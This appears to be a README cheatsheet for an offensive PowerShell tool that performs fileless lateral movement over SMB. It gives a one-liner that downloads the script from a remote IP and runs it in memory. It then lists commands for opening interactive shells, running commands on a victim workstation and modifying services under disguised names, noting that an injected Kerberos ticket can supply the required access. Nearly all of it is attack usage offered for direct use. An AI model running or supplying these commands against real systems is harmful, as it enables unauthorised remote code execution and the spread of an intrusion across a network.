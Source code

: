 # FileLess Lateral Movement - Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

### Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`
